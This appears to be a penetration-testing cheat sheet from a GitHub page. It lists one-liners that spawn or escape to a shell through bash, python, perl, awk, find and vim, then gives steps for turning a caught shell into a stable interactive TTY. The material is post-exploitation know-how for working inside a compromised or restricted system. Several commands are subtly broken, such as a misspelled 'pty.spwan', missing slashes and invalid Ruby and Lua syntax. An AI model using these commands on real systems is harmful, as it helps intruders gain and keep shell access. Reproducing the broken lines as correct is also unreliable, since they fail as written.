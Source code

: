 *To check which shell is present in the system* 
```shell
cat /etc/shells
```

bash
```shell
/bin/bash -i
```

sh
```shell
/bin/sh -i
```

python 
```shell
python -c 'import pty; pty.spwan("/bin/bash")'
```

Perl
```shell
perl -e 'exec "bin/bash";'
```

Ruby
```shell
ruby: exe "bin/bash"
```

Perl
```shell
perl: exec "bin/bash";
```

Lua
```shell
lua: os.execute('/bin/sh')
```

awk
```sh
awk 'BEGIN{system("/bin/sh")}'
```

Find
```sh
find / -name {name of file} -exec /bin/awk 'BEGIN{system("/bin/sh")}'
```

### using Exec to launch the shell

```sh
find . -exec /bin/sh \; -quit
```

### vim
``
```sh
vim -c ';!/bin/sh'
```

Vim Escape

```sh
vim
:set shell=/bin/sh
:shell
```

permission
```shell
ls -la <path/to/file or binary>
```

# Stabilize Shell 


Steps to Stabilize Your Shell

1. Upgrade to an Interactive Shell
```shell
python3 -c 'import pty;pty.spawn("/bin/bash")'
````
If `python3` is unavailable, try:
```shell
python -c 'import pty;pty.spawn("/bin/bash")'
```
This gives you job control and allows using built-in commands like `su`.

2. Set Terminal Type
```shell
export TERM=xterm
```
This ensures compatibility with commands like `clear` and `vim`.

3. Background the Shell Press:
```sh
Ctrl + Z
```
This suspends the session and returns control to your local shell.

4. Modify Terminal Settings on Your Local Machine
```shell
stty raw -echo; fg
```
- `stty raw -echo` disables local echo and allows features like **Tab autocompletion, arrow keys, and Ctrl + C**.
- `fg` brings the background shell back to the foreground.

5. Adjust Terminal Size (Optional)
```shell
stty rows 38 columns 116
```
This ensures proper formatting for commands like `vim` or `less`.
Bonus: Enable a Full TTY Shell If the above steps aren’t enough, try:
```shell
script /dev/null -c bash
```

or

```shell
reset
```
This may further improve terminal capabilities.
